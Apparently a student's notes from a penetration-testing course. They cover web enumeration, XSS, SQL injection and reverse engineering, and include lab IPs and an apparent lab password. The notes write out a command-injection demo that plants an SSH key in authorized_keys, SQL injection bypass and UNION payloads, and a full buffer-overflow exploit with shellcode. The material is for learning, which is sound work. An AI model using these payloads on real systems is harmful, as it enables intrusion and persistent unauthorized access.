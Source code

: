 ## Misc 

https://sec.cybbh.io/public/security/latest/index.html
#### Test Day: August 15th

            xfreerdp /u:student /v:10.50.37.222 /dynamic-resolution +glyph-cache +clipboard


            Jump Box:   ssh student@10.50.20.235 -X 
                        CHT8QBJ8TQBlv7S
                        JOHA-005-M

            LinOps:     ssh student@10.50.40.22 -X  

            WinBox:     ssh student@10.50.37.222
                         
            ctf : server -> http://10.50.20.250:8000/

## Day 1 - Recon/Research/Pen Testing
### Pen Testing

#### Pen Testing Test Reporting

    OPNotes
      Actions being taken that works, maps, the things that have worked. Keeping track of the steps

    Penetration Test Reporting
      Executive Summary
        The tops, not evertything but a summary
      Technical Summary
        In the weeds, the more technical stuff
## Day 2 - Web Explotation
### HTTP Methods
    GET, POST, HEAD, PUT

### HTTP Response Codes
    10X Info, 2XX Success, 30X Redir, 4XX Client Err, 5XX Serv Err

### JavaScript (JS)
    HTML Frame of the House
    CSS is the paint and decoration
    JavaScript is used to change things afterwards

### HTTP Enumeration
```
nmap -v -sT -T5 --script http-enum.nse 10.50.31.75 -> web enum
nikto -h 10.50.31.75 -> info about the sub dirs 

sudo apt install nikto -y
```

### Cross-Site Scripting
    Attacker puts bad stuff on trusted website, it allows it to execute bad code
#### Reflected XSS
    Not stored, run JS on website, changes url, bad code in url
#### Stored XSS
    Actually stored on server

### Demo
    lin-ops> ssh-keyget -t rsa "enter", "enter" is in /home/student/.ssh/id_rsa"
    passhprhase -> blank
    have genterated key
    cd ~/.ssh 
    ca id_rsa.pub(lic key) "generated public key"
    in search box
        : whoami -> www-data
        : cat /etc/passswd -> home dir is /var/www
        : ls -la /var/www -> see if .ssh file is created
        : mksir /var/www/.ssh
        : echo "ssh-rsa 'key' student@lin-ops" > /var/www/.ssh/authorized_keys

## Day 3 - Web Explotation  Part 2 - SQL Injection 
### MySql
    Unsanitized vs Sanitized Fields
        Unsanitized test, enter '
            will return info, no errors or jeneric error
        Santized: items are removed, escaped into single string

    Server-Side Query Processing
        Before Input
            name='$name'...
            nmae='JohnDoe'

### Injecting Statemnet
    User Enters TOM' OR 1='1 in the name and pass fields
    Truth Statemnet: tom 'OR 1=' 1

    Back End
        name='tom' OR 1='1' AND PASS='tom' OR 1='1'

##
    mysql
    use session;
    select * from user;
    select id from user where name='admin';  = 0
    select id from user where name='tom';  = none
    select * from user where name='tom' OR 1=1;  = eveyrthing
    stacking statements, chain statements togetyher with ;

    To find the version
        Audi' UNION SELECT @@version,database(); #

## Nesting Statements
    # ignore the rest or -- tells to ignore stuff, comment out some of the sql error

## Day 4 - Reverse Engineering
     
### X86_64 Assembly - Common Terms
    Heap, Stack, Gen. Register, Ctrl. Register, Flags Register
    
### Reverse Engineering Workflow (Software)
```Shell
#!/usr/bin/python2.7

# FILL UP THE BUFFER 
buf = "A" * 62

#EIP Register to JMP ESP

buf += "\x59\x3b\xde\xf7"

#The mem addresses for JMP ESP

'''
0xf7de3b59 "\x59\x3b\xde\xf7"
0xf7f588ab
0xf7f645fb
0xf7f6460f
'''
## Assits with encoding NOP SLED
buf += "\x90" * 10

# Shell Code / palyoad below
# set CMD whoami && ifconfig


buf += b"\xdb\xc3\xd9\x74\x24\xf4\x58\xbb\xe6\xef\x4a\x63"
buf += b"\x29\xc9\xb1\x0e\x31\x58\x19\x03\x58\x19\x83\xe8"
buf += b"\xfc\x04\x1a\x20\x68\x90\x7c\xe7\x08\x48\x52\x6b"
buf += b"\x5c\x6f\xc4\x44\x2d\x07\x15\xf3\xfe\xb5\x7c\x6d"
buf += b"\x88\xda\x2d\x99\x99\x1c\xd2\x59\xe9\x74\xbd\x38"
buf += b"\x78\xed\x61\x9d\xa4\xcd\x08\x87\xcb\x62\xa5\x21"
buf += b"\x65\x1b\x39\xf9\x26\x6a\xd8\xc8\x49"

print(buf)
```
### Post Exploitation
            
